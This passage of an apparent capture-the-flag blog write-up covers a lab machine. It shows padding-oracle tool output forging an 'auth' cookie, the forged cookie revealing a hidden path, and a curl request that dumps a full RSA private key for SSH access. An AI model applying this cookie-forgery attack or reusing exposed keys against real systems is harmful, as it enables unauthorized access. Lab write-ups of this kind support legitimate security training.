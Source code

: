 [+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
{% endhighlight %}

Then try to access with the cookie "auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA".<br>
We can find an interesting path "/mysshkeywithnamemitsos"
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-06-10/2019-06-10-14-35-06.png)

By accessing the url "http://10.10.10.18/mysshkeywithnamemitsos"
{% highlight shell %}
root@kali:~# curl -i http://10.10.10.18/mysshkeywithnamemitsos
HTTP/1.1 200 OK
Date: Mon, 10 Jun 2019 11:36:35 GMT
Server: Apache/2.4.7 (Ubuntu)
Last-Modified: Tue, 02 May 2017 15:25:54 GMT
ETag: "68f-54e8c27e07159"
Accept-Ranges: bytes
Content-Length: 1679

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqIkk7+JFhRPDbqA0D1ZB4HxS7Nn6GuEruDvTMS1EBZrUMa9r
upUZr2C4LVqd6+gm4WBDJj/CzAi+g9KxVGNAoT+Exqj0Z2a8Xpz7z42PmvK0Bgkk
3mwB6xmZBr968w9pznUio1GEf9i134x9g190yNa8XXdQ195cX6ysv1tPt/DXaYVq
OOheHpZZNZLTwh+aotEX34DnZLv97sdXZQ7km9qXMf7bqAuMop/ozavqz6ylzUHV
YKFPW3R7UwbEbkH+3GPf9IGOZSx710jTd1JV71t4avC5NNqHxUhZilni39jm/EXi
o1AC4ZKC1FqA/4YjQs4HtKv1AxwAFu7IYUeQ6QIDAQABAoIBAA79a7ieUnqcoGRF
gXvfuypBRIrmdFVRs7bGM2mLUiKBe+ATbyyAOHGd06PNDIC//D1Nd4t+XlARcwh8
g+MylLwCz0dwHZTY0WZE5iy2tZAdiB+FTq8twhnsA+1SuJfHxixjxLnr9TH9z2db
sootwlBesRBLHXilwWeNDyxR7cw5TauRBeXIzwG+pW8nBQt62/4ph/jNYabWZtji
jzSgHJIpmTO6OVERffcwK5TW/J5bHAys97OJVEQ7wc3rOVJS4I/PDFcteQKf9Mcb
+JHc6E2V2NHk00DPZmPEeqH9ylXsWRsirmpbMIZ/HTbnxJXKZJ8408p6Z+n/d8t5
gyoaRgECgYEA0oiSiVPb++auc5du9714TxLA5gpmaE9aaLNwEh4iLOS+Rtzp9jSp
b1auElzXPwACjKYpw709cNGV7bV8PPfBmtyNfHLeMTVf/E/jbRUO/000ZNznPnE7
SztdWk4UWPQx0lcSiShYymc1C/hvcgluKhdAi5m53MiPaNlmtORZ1sECgYEAzO61
apZQ0U629sx0OKn3YacY7bNQlXjl1bw5Lr0jkCIAGiquhUz2jpN7T+seTVPqHQbm
sClLuQ0vJEUAIcSUYOUbuqykdCbXSM3DqayNSiOSyk94Dzlh37Ah9xcCowKuBLnD
gl3dfVsRMNo0xppv4TUmq9//pe952MTf1z+7LCkCgYB2skMTo7DyC3OtfeI1UKBE
zIju6UwlYR/Syd/UhyKzdt+EKkbJ5ZTlTdRkS+2a+lF1pLUFQ2shcTh7RYffA7wm
qFQopsZ4reQI562MMYQ8EfYJK7ZAMSzB1J1kLYMxR7PTJ/4uUA4HRzrUHeQPQhvX
JTbhvfDY9kZMUc2jDN9NwQKBgQCI6VG6jAIiU/xYle9vi94CF6jH5WyI7+RdDwsE
9sezm4OF983wsKJoTo+rrODpuI5IJjwopO46C1zbVl3oMXUP5wDHjl+wWeKqeQ2n
ZehfB7UiBEWppiSFVR7b/Tt9vGSWM6Uyi5NWFGk/wghQRw1H4EKdwWECcyNsdts0
6xcZQQKBgQCB1C4QH0t6a7h5aAo/aZwJ+9JUSqsKat0E7ijmz2trYjsZPahPUsnm
+H9wn3Pf5kAt072/4N2LNuDzJeVVYiZUsDwGFDLiCbYyBVXgqtaVdHCfXwhWh1EN
pXoEbtCvgueAQmWpXVxaEiugA1eezU+bMiUmer1Qb/l1U9sNcW9DmA==
-----END RSA PRIVATE KEY-----
{% endhighlight %}
